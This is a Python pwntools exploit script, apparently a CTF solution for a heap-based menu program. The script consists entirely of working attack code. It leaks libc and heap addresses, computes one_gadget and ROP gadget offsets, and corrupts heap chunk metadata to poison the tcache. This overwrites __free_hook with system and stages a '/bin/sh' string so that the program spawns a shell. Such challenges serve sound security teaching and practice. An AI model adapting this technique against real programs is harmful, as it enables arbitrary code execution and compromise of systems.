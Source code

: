 ```py
deleteplan(0)
createplan(b'',0x500)  # 0 again

leak = showplan(0)[1].strip()
leak = leak.ljust(8,b'\x00')    
leak = u64(leak)
leak = leak << 8
log.info(f'leak: {hex(leak)}')
libc.address = leak - 0x3ebc00

log.info(f'libc.address: {hex(libc.address)}')
malloc_hook = libc.sym['__malloc_hook']
log.info(f'malloc_hook: {hex(malloc_hook)}')
free_hook = libc.sym['__free_hook']
log.info(f'free_hook: {hex(free_hook)}')
list =[0x4f3ce,0x4f3d5,0x4f432,0x10a41c,0x10a428,0xe5622,0xe561e,0xe5617,0xe546f,0x4f3c7]
one_gadget = libc.address + list[7] 
log.info(f'one_gadget: {hex(one_gadget)}')
rop = ROP(libc)
ret= rop.find_gadget(['ret'])[0]
log.info(f'ret: {hex(ret)}')
system = libc.sym['system']
pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]
log.info(f'system: {hex(system)}')



createplan(b'x'*(31),0x20)  # 2
createplan(b'b'*(0x20-1),0x20)  # 3


editplan(2,b'a'*(31))
deleteplan(1)
deleteplan(3)
createplan(b'',0x20)  #1

leakheap= showplan(1)[1].strip()
leakheap = leakheap.ljust(8,b'\x00')
leakheap = u64(leakheap)
leakheap = leakheap << 8
heap_base = leakheap - 0xb00
log.info(f'leakheap: {hex(heap_base)}')

deleteplan(2)   



# Overwrite __malloc_hook with one_gadget
createplan(b'a'*(0x500 - 9),0x500 - 8)  # 2
createplan(b'b'*(0x500 - 9),0x500-8)  # 3
createplan(b'c'*(0x68 - 9),0x68-8)  # 4
editplan(3,b'x'*(0x500-9))
deleteplan(1)
deleteplan(3)
editplan(2,b'a'*(1273-9)+p8(0x0)*8+p8(0x01))
deleteplan(4)
createplan(b'z'*(0x500-0x10 )+p64(0x0)+p64(0x81)+p64(free_hook)+p64(heap_base+0x10),0xa00-8)
#editplan(1,b'd'*(0x4f8-24))
createplan(b"/bin/sh\x00",0x68)
createplan(p64(system)+p64(0x0),0x70-8)
createplan(b'aaaa',0x10)
#gdb.attach(p)

```